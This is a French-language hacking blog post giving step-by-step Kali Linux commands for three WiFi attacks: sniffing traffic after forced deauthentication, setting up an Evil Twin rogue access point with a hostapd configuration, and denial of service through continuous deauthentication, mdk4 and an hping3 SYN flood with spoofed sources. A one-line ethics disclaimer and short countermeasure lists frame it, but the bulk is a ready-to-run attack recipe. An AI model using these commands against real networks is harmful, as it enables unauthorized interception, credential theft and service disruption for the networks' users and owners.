 ```yaml
---
title: Attaques WiFi
time: 2024-12-17 12:00:00
categories: [Hacking]
tags: [kali,wifi,hack,cybersecurity]
image: /assets/posts/WiFi/wifi.png 
---
```



# 🌐 Attaques WiFi : Comprendre pour Mieux Protéger

## 🚨 Préambule Éthique

> **ATTENTION :** Ce guide est strictement à des fins éducatives et professionnelles.

## 📡 1. Attaque par Écoute (Sniffing)

### 🎯 Objectif
Intercepter et analyser le trafic réseau sans fil de manière non autorisée.

### 🛠 Équipement Requis
- Ordinateur sous Kali Linux
- Carte WiFi compatible mode monitor
- Antenne WiFi externe (recommandé)

### 🔍 Étapes Détaillées d'Exploitation

#### Étape 1 : Préparation de l'Environnement
```bash
# Vérifier les interfaces réseau
ifconfig

# Passer l'interface en mode monitor
airmon-ng start wlan0

# Vérifier l'interface monitor
iwconfig
```

#### Étape 2 : Scan des Réseaux Disponibles
```bash
# Lister les réseaux WiFi
airodump-ng wlan0mon

# Cibler un réseau spécifique
airodump-ng -c [CHANNEL] --bssid [MAC_ADDRESS] -w capture wlan0mon
```

#### Étape 3 : Capture des Données
```bash
# Forcer la réauthentification
aireplay-ng --deauth 100 -a [BSSID] wlan0mon

# Analyser les captures
wireshark capture-01.cap
```

### 🛡️ Contre-Mesures
- Utiliser uniquement WPA3
- Chiffrer les communications sensibles
- Éviter les réseaux publics non sécurisés

## 🕳️ 2. Attaque Evil Twin

### 🎯 Objectif
Créer un point d'accès malveillant identique à un réseau légitime.

### 🛠 Équipement Requis
- Ordinateur sous Kali Linux
- Carte WiFi avec mode AP
- Antenne WiFi puissante

### 🔍 Étapes Détaillées d'Exploitation

#### Étape 1 : Préparation de l'Interface
```bash
# Configurer l'interface en mode monitor
airmon-ng start wlan0

# Identifier les réseaux à proximité
airodump-ng wlan0mon
```

#### Étape 2 : Clonage du Réseau
```bash
# Installer les outils
apt-get install hostapd

# Créer un fichier de configuration
nano /etc/hostapd/hostapd.conf

# Exemple de configuration
interface=wlan0
driver=nl80211
ssid=[NOM_RESEAU_ORIGINAL]
channel=6
hw_mode=g
wpa=2
wpa_passphrase=[MOT_DE_PASSE]
```

#### Étape 3 : Déconnexion des Clients
```bash
# Forcer la déconnexion
aireplay-ng --deauth 100 -a [BSSID_ORIGINAL] wlan0mon
```

#### Étape 4 : Lancement du Point d'Accès Malveillant
```bash
# Démarrer le point d'accès
hostapd /etc/hostapd/hostapd.conf
```

### 🛡️ Contre-Mesures
- Vérification des certificats
- Authentification 802.1X
- Utilisation d'un VPN

## 🚫 3. Attaque par Déni de Service (DoS)

### 🎯 Objectif
Rendre un réseau WiFi inutilisable par saturation.

### 🛠 Équipement Requis
- Ordinateur sous Kali Linux
- Carte WiFi compatible mode monitor

### 🔍 Étapes Détaillées d'Exploitation

#### Étape 1 : Reconnaissance
```bash
# Scanner les réseaux
airodump-ng wlan0mon
```

#### Étape 2 : Attaque de Déconnexion
```bash
# Attaque de déauthentification
aireplay-ng --deauth 0 -a [BSSID] wlan0mon

# Attaque massive
mdk4 wlan0mon d -c [CHANNEL] -B [BSSID]
```

#### Étape 3 : Saturation du Réseau
```bash
# Envoi de paquets broadcast
hping3 -S -p 80 --flood --rand-source [IP_CIBLE]
```

### 🛡️ Contre-Mesures
- Configurer des pare-feux avancés
- Limiter les connexions simultanées
- Mettre à jour régulièrement les firmwares



